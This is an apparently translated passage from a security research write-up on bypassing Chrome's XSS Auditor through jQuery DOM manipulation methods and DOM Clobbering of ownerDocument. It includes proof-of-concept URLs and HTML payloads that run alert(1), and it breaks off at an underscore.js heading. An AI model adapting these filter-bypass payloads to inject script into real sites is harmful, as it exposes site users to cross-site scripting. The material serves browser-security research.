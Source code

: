 Additional jQuery functions are , `after`, `before`, `prepend`, `append`, `html`, `replaceWith`, `wrap`, `wrapAll`, `insertBefore`, `insertAfter`, `prependTo`and `appendTo`so on. `ownerDocument`By using a form component with a name attribute, the reference destination of [Node.ownerDocument](https://developer.mozilla.org/ja/docs/Web/API/Node/ownerDocument) is misunderstood, and the script is executed when it should not be executed (this technique is known as [DOM Clobbering ). ](https://www.slideshare.net/x00mario/in-the-dom-no-one-will-hear-you-scream/21)`<!--`In addition, the fact that there is a process to [remove](https://github.com/jquery/jquery/blob/a6b0705294d336ae2f63f7276de0da1195495363/src/manipulation.js#L206) script blocks before execution, combined with the fact that Auditor does not block script blocks that contain only comments, causes the bypass.

Reference URL:

- https://sirdarckcat.github.io/csp/jquery.html

PoC:

[https://vulnerabledoma.in/bypass/text?type=5&q=%3Cform%20class=child%3E%3Cinput%20name=ownerDocument%3E%3Cscript%3E%3C!--alert(1)%3C/script%3E%3C/form%3E](https://vulnerabledoma.in/bypass/text?type=5&q=<!--alert(1))

```
<!DOCTYPE html>
<html>
<head>
<script src="/js/jquery-3.2.1.min.js"></script>
<script>
$(document).ready(function(){
    // code taken from http://api.jquery.com/after/
    $( ".container" ).after( $( ".child" ) );
});
</script>
</head>
<body>
<!-- XSS -->
<form class=child><input name=ownerDocument><script><!--alert(1)</script></form>
<!-- XSS -->
<p class="container"></p>
</body>
<!-- Inspired by @sirdarckcat CSP bypass trick: https://sirdarckcat.github.io/csp/jquery.html -->
</html>
```

(This example is Chrome only) [https://vulnerabledoma.in/bypass/text?q=%3Clink%20rel=import%20href=/bypass/jquery.html%3E%3Cp%20class=container%3E%3C/p %3E%3Cform%20class=child%3E%3Cinput%20name=ownerDocument%3E%3Cscript%3E%3C!--alert(1)%3C/script%3E%3C/form%3E](https://vulnerabledoma.in/bypass/text?q=<!--alert(1))

```
<link rel=import href=/bypass/jquery.html><p class=container></p><form class=child><input name=ownerDocument><script><!--alert(1)</script></form>
```

#### Using underscore.js

Conditions for attacking:
